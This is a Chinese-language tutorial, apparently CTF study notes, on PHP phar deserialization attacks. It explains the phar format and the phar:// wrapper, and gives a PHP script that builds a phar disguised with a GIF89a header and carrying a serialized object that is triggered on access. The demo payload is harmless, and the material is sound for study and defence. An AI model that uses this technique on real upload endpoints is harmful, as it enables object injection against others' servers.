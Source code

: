 ### phar 文件介绍

`phar`扩展提供了一种将整个 PHP 应用程序放入单个叫做`phar`（PHP 归档）文件的方法，以便于分发和安装。phar 是 PHP 和 Archive 的合成词，大致上基于 Java 开发人员熟悉的 jar（Java 归档）。

phar 文件由[4 部分组成](https://www.php.net/manual/zh/phar.fileformat.phar.php)：

1. `stub`，标志，格式为`xxx<?php xxx; __HALT_COMPILER();?>`，前面内容不限，但必须以`__HALT_COMPILER();?>`结尾
2. `manifest`，清单。其中还会经`serialize()`序列化保存`Meta-data`
3. `contents`，内容
4. `signature`，签名，可选

`phar://`协议

```php
<?php
include 'phar:///path/to/myphar.phar/file.php';
?>
```

### 漏洞原理

2018 年，安全研究员`Sam Thomas`分享了议题[It’s a PHP unserialization vulnerability Jim, but not as we know it](https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf)，利用 phar 文件会以序列化的形式存储用户自定义的`meta-data`这一特性，拓展了 PHP 反序列化漏洞的攻击面。

题眼

- 允许上传精心构造的 phar 文件
- 允许使用`phar://`

添加任意的文件头+修改后缀名的方式将 phar 文件伪装成其他格式的文件

### 创建 phar 文件

?> 需将`php.ini`中的`phar.readonly`选项设置为`Off`，否则无法生成 phar 文件。

```php
<?php
class AnyClass
{
    public function __destruct()
    {
        echo "__destruct" . PHP_EOL;
    }
}

@unlink("test.phar"); // 删除已有文件
$phar = new Phar("test.phar"); //文件名，后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>"); //设置stub
$object = new AnyClass();
$phar->setMetadata($object); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

// 本地测试
if (file_exists("test.phar")) {
    file_get_contents("phar://test.phar");
}

```
